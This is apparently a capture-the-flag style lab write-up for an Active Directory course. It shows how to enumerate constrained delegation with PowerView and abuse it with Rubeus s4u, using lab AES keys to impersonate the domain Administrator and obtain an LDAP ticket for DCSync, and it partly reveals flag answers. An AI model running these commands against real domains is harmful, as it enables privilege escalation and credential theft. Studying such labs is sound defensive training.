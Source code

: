 ```yaml
---
description: Learning Object 16
icon: vial
---
```


# 16 - LO1️6️

## Tasks



1 - Enumerate users in the domain for whom Constrained Delegation is enabled

* For such a user, request a TGT from the DC and obtain a TGS for the service to which delegation is configured.
* Pass the ticket and access the service.

2 - Enumerate computer accounts in the domain for which Constrained Delegation is enabled

* For such a user, request a TGT from the DC.
* Obtain an alternate TGS for LDAP service on the target machine.
* Use the TGS for executing DCSync attack.

Flag 26 \[dcorp-adminsrv] - Value of msds-allowedtodelegate to attribute of dcorp-adminsrv 🚩

Flag 27 \[dcorp-adminsrv] - Alternate service accessed on dcorp-dc by abusing Constrained delegation on dcorp-adminsrv 🚩



## Solutions

### 1 - Enumerate users in the domain for whom Constrained Delegation is enabled

To enumerate users with constrained delegation we can use PowerView. Run the below command from a PowerShell session started using Invisi-Shell:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth
```

```powershell
logoncount               : 7
badpasswordtime          : 12/31/1600 4:00:00 PM
distinguishedname        : CN=web svc,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass              : {top, person, organizationalPerson, user}
displayname              : web svc
lastlogontimestamp       : 5/18/2025 2:35:14 PM
userprincipalname        : websvc
whencreated              : 11/14/2022 12:42:13 PM
samaccountname           : websvc
codepage                 : 0
samaccounttype           : USER_OBJECT
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 5/18/2025 9:35:14 PM
instancetype             : 4
usncreated               : 38071
objectguid               : b7ab147c-f929-4ad2-82c9-7e1b656492fe
sn                       : svc
lastlogoff               : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto : {CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL, CIFS/dcorp-mssql}
objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata    : {12/5/2024 12:47:28 PM, 11/14/2022 12:42:13 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname     : {SNMP/ufc-adminsrv.dollarcorp.moneycorp.LOCAL, SNMP/ufc-adminsrv}
givenname                : web
usnchanged               : 349838
lastlogon                : 5/18/2025 2:51:48 PM
badpwdcount              : 0
cn                       : web svc
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
objectsid                : S-1-5-21-719815819-3726368948-3917688648-1114
primarygroupid           : 513
pwdlastset               : 11/14/2022 4:42:13 AM
name                     : web svc
```

<figure><img src="../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

We already have secrets of websvc from dcorp-admisrv machine. We can either use Kekeo or Rubeus to abuse that.

In the below command (into an administrative cmd), we request get a TGS for websvc as the Domain Administrator - Administrator. Then the TGS used to access the service specified in the /msdsspn parameter (which is filesystem on dcorp-mssql):

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

and check if the TGS is injected using: `klist`

<figure><img src="../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Try accessing filesystem on dcorp-mssql:

<figure><img src="../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

### 2 - Enumerate computer accounts in the domain for which Constrained Delegation is enabled

Continue, to enumerate the computer accounts with constrained delegation enabled using PowerView: `Get-DomainComputer -TrustedToAuth`

```powershell
pwdlastset                    : 11/11/2022 11:16:12 PM
logoncount                    : 97
badpasswordtime               : 5/18/2025 3:28:12 PM
distinguishedname             : CN=DCORP-ADMINSRV,OU=Applocked,DC=dollarcorp,DC=moneycorp,DC=local
objectclass                   : {top, person, organizationalPerson, user...}
lastlogontimestamp            : 5/11/2025 9:04:27 PM
whencreated                   : 11/12/2022 7:16:12 AM
samaccountname                : DCORP-ADMINSRV$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT
whenchanged                   : 5/12/2025 4:04:27 AM
accountexpires                : NEVER
countrycode                   : 0
operatingsystem               : Windows Server 2022 Datacenter
instancetype                  : 4
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION
objectguid                    : 2e036483-7f45-4416-8a62-893618556370
operatingsystemversion        : 10.0 (20348)
lastlogoff                    : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto      : {TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL, TIME/dcorp-DC}
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata         : {12/5/2024 12:47:28 PM, 11/15/2022 4:16:45 AM, 1/1/1601 12:00:01 AM}
serviceprincipalname          : {WSMAN/dcorp-adminsrv, WSMAN/dcorp-adminsrv.dollarcorp.moneycorp.local,
                                TERMSRV/DCORP-ADMINSRV, TERMSRV/dcorp-adminsrv.dollarcorp.moneycorp.local...}
usncreated                    : 13891
usnchanged                    : 324081
lastlogon                     : 5/18/2025 3:29:49 PM
badpwdcount                   : 0
cn                            : DCORP-ADMINSRV
msds-supportedencryptiontypes : 28
objectsid                     : S-1-5-21-719815819-3726368948-3917688648-1105
primarygroupid                : 515
iscriticalsystemobject        : False
name                          : DCORP-ADMINSRV
dnshostname                   : dcorp-adminsrv.dollarcorp.moneycorp.local
```

<figure><img src="../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

We have the AES keys of dcorp-adminsrv$ from dcorp-adminsrv machine. Run the below command from an elevated command prompt as SafetyKatz, that we will use for DCSync, would need that:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

<figure><img src="../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

### Flag 26 \[dcorp-adminsrv] - Value of msds-allowedtodelegate to attribute of dcorp-adminsrv 🚩

The flag it the value of msds-allowedtodelegate to attribute of dcorp-adminsrv: `{TIME/dcorp-dc.dollarcorp.XXXXXXXXXXXXXXXXXXXXXXXXXX}`

### Flag 27 \[dcorp-adminsrv] - Alternate service accessed on dcorp-dc by abusing Constrained delegation on dcorp-adminsrv 🚩

We can discover the alternate service using the following command:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

